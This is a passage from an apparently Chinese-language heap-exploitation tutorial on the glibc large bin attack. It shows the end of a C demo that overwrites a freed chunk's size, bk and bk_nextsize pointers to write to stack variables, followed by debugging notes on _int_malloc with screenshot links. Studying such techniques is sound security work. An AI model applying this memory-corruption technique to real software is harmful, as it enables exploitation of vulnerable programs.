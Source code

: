   ```c
              " [ %p <--> %p ]\n\n", (void *)(p2 - 2), (void *)(p2[0]));
   
       malloc(0x90);
       printf("现在，我们分配一个比已释放的第一个大块小的块。这将把已释放的第二个大块移到large bin空闲列表中，"
              "使用已释放的第一个大块的一部分进行分配，并将剩余的第一个大块重新插入到unsorted bin中："
              " [ %p ]\n\n", (void *)((char *)p1 + 0x90));
   
       free(p3);
       printf("现在，我们释放第三个大块，它将被插入到unsorted bin中："
              " [ %p <--> %p ]\n\n", (void *)(p3 - 2), (void *)(p3[0]));
   
       // ------------漏洞模拟-----------
   
       printf("现在模拟一个漏洞，可以覆盖已释放的第二个大块的“size”以及它的“bk”和“bk_nextsize”指针\n");
       printf("基本上，我们减少已释放的第二个大块的大小，以强制malloc在large bin空闲列表的头部插入已释放的第三个大块。"
              "为了覆盖栈变量，我们将“bk”设置为stack_var1之前的16字节，将“bk_nextsize”设置为stack_var2之前的32字节\n\n");
   
       p2[-1] = 0x3f1;
       p2[0] = 0;
       p2[2] = 0;
       p2[1] = (unsigned long)(&stack_var1 - 2);
       p2[3] = (unsigned long)(&stack_var2 - 4);
   
       // --------------------------------
   
       printf("让我们再分配一次，这样已释放的第三个大块就会被插入到large bin空闲列表中。"
              "此时，目标应该已经被重写：\n");        
       malloc(0x90);
   
       printf("stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
       printf("stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);
   
       return 0;
   }
   ```

3. 调试，这里仅在最后申请malloc(0x90)触发large bin attack时，进入_int_malloc源码调试。且利用的时第二种方法：

   初始时堆上的状态，原先large bin已经被修改，bk_nextsize指向0x00007fffffffde18，bk指向0x00007fffffffde30：

   ![image-20240826152552472](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408261525709.png)

   调试，进入到_int_malloc中对unsorted bin处理的部分，这里处理unsorted bin中的第一个chunk（unsorted bin在处理时使用bk寻址，但是dbg中按fd显示了），这里将chunk移出unsorted bin：

   ![image-20240826153021994](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408261530255.png)

   ![image-20240826153859594](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408261538742.png)

   将取出的victim放入对应的small bin中：

   ![image-20240826154011296](https://gitee.com/poppy-qwq/cloudimage/raw/master/img1/202408261540564.png)
